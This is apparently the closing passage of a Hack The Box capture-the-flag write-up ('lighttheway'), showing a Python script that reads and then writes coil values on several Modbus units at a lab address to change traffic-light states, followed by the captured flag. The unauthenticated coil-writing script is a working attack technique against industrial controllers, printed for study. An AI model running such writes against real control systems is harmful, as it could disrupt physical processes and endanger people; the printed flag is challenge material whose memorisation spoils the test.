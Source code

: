 data_address = {}

c = ModbusClient(host="10.129.96.95", port="502", unit_id=1, auto_open=True)
for i in range(1,7):
    c.unit_id(i)
    regs = c.read_coils(0,2000)

    data_address[i] = regs.index(True)

c.unit_id(1)
c.write_multiple_coils(571,[False, False, True, False, False, True, False, False, True, True, False, False])

c.unit_id(2)
c.write_multiple_coils(1920, [True, False, False, False, False, True,False, False, True, False, False, True])


c.unit_id(4)
c.write_multiple_coils(1266, [False, False, True, False, False, True,False, False, True, True, False, False])


c.unit_id(6)
c.write_multiple_coils(886,[False, False, True, False, False, True, False, False, True, True, False, False])
```

After running the script, the car moved and I found the flag.

![](/lighttheway/lighttheway.gif)

Flag:```HTB{w3_se3_tH3_l1ght}```


